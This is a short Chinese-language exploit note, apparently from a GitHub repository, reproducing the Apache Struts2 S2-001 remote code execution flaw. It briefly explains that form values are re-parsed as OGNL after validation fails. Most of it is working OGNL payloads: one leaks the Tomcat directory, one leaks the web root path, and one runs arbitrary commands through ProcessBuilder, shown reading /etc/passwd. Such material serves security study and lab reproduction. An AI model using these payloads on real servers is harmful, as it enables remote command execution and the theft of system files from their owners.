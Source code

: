 # S2-001 远程代码执行漏洞复现

## 原理

> 该漏洞因为用户提交表单数据并且验证失败时，后端会将用户之前提交的参数值使用 OGNL 表达式 %{value} 进行解析，然后重新填充到对应的表单数据中。例如注册或登录页面，提交失败后端一般会默认返回之前提交的数据，由于后端使用 %{value} 对提交的数据执行了一次 OGNL 表达式解析，所以可以直接构造 Payload 进行命令执行 

## 触发条件

表单验证失败

## exp



```java
获取tomcat执行路径：

%{"tomcatBinDir{"+@java.lang.System@getProperty("user.dir")+"}"}
获取Web路径：

%{#req=@org.apache.struts2.ServletActionContext@getRequest(),#response=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse").getWriter(),#response.println(#req.getRealPath('/')),#response.flush(),#response.close()}
执行任意命令（命令加参数：new java.lang.String[]{"cat","/etc/passwd"}）：

%{#a=(new java.lang.ProcessBuilder(new java.lang.String[]{"cat","/etc/passwd"})).redirectErrorStream(true).start(),#b=#a.getInputStream(),#c=new java.io.InputStreamReader(#b),#d=new java.io.BufferedReader(#c),#e=new char[50000],#d.read(#e),#f=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse"),#f.getWriter().println(new java.lang.String(#e)),#f.getWriter().flush(),#f.getWriter().close()}
```





## 参考

 https://github.com/vulhub/vulhub/blob/master/struts2/s2-001/README.zh-cn.md 

 http://rickgray.me/2016/05/06/review-struts2-remote-command-execution-vulnerabilities.html 